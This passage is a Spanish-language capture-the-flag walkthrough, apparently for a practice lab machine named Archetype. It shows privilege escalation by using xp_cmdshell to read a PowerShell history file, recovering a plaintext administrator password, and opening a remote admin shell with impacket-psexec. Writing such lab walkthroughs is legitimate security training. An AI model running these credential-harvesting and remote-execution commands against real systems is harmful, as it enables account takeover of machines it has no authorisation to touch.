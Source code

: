 ### Enumeración
Comenzaremos enumerando la máquina para ver cómo podemos escalar privilegios. Podemos empezar enumerando archivos que se abran frecuentemente o comandos que se hayan ejecutado recientemente. Comprobaremos el histórico de Powershell:

```powershell
xp_cmdshell "type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"
```

Este archivo nos devolverá lo siguiente:

```powershell
output
--------------------------------------------------------------------------------
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!

NULL
```

<br>

Como vemos se está usando el usuario administrador para montar la ruta backup (la que hemos visto en SMB) en la unidad de disco T:, además veremos la contraseña que se está usando por lo que podremos usarla para acceder a la máquina como usuario administrador:

```plaintext
File: adminCreds

administrator:MEGACORP_4dm1n!!
```

<br>

### PSExec
Para acceder a la máquina como usuario administrador usaremos la herramienta PSExec de [Impacket](https://github.com/SecureAuthCorp/impacket) la cual nos permitirá ejecutar una Powershell en una máquina remota una vez conocidas las creedenciales del usuario administrador:

```bash
impacket-psexec administrator@10.10.10.27
```

Por último, nos dirigiremos al directorio C:\Users\Administrator\Desktop donde visualizaremos la flag root.txt.